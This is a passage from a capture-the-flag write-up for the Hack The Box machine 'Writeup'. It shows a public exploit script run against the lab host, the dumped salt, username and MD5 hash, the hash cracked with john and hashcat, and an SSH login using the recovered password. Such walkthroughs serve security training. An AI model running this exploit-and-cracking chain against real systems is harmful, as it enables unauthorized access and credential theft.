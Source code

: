 ```bash
# read and run the exploit
./46635.py -u 'http://writeup.htb/writeup/'
```

The exploit works.

<figure><img src="../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
salt: 5a599ef579066807

username: jkr

email: jkr@writeup.htb

password: 62def4866937f08cc13bab43bb14e6f7
{% endhint %}

### Crack the hash

We can detect the format of the hash with John The ripper and crack the password with salt with hashca&#x74;_._

```bash
# write the HASH:SALT in a file
echo "62def4866937f08cc13bab43bb14e6f7:5a599ef579066807" > hash

# detect hash format with john
john hash
```

It's a MD5 hash. Crack with hashcat.

```bash
# use -m 20 to crack a MD5 hash with salt
hashcat -m 20 hash /usr/share/wordlists/rockyou.txt

# results
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```

{% hint style="success" %}
Password clean: raykayjay9
{% endhint %}

### SSH Login

Now that we have the credentials, let's try to logging in via SSH.

```bash
ssh jkr@10.10.10.138
password: raykayjay9
```
